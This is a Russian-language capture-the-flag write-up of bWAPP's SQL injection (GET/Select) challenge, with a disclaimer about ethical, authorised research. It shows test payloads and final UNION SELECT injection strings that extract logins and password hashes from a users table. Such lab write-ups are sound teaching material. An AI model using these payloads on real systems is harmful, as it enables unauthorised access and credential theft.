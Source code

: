 # SQL Injection (GET/Select)
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Buggy Web Application (BWAPP) предлагает набор заданий, основанных на ***уязвимости внедрения SQL-кода***. (**A03:2021 - Инъекции**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий

# Цель
---

![[images/SqliGetSelectTarget.png]]

# Функциональность
---

Приложение позволяет выбрать фильм из предоставленного списка:

![[images/SqliGetSelectFunction.png]]

### Предполагаемый SQL-запрос:

```SQL
SELECT * FROM movies WHERE id="$variable"
```

# Эксплуатация
---

Тестирование со стандартной полезной нагрузкой `1' OR 1=1 -- ` вернуло ошибку, однако `1 OR 1=1 -- ` не вызвало сбоя:

![[images/SqliGetSelectTest.png]]

Передача полезной нагрузки на основе `UNION`, ранее использовавшейся в ))))), не вызвала ошибок, но не позволила получить информацию из (вероятной) таблицы users:

![[images/SqlietGetSelectTest2.png]]

Передача полезных нагрузок на основе `UNION` с добавлениями `ORDER BY` позволила получить данные из таблицы `users` путем изменения параметра `ORDER BY`:

![[images/SqliGetSelectPwd.png]]

![[images/SqliGetSelectUsers.png]]

## Финальные полезные нагрузки

Получение записей хэшированных паролей:

```SQL

1 UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 2 -- 

```

Получение записей логинов:

```SQL

1 UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 
2 -- 

```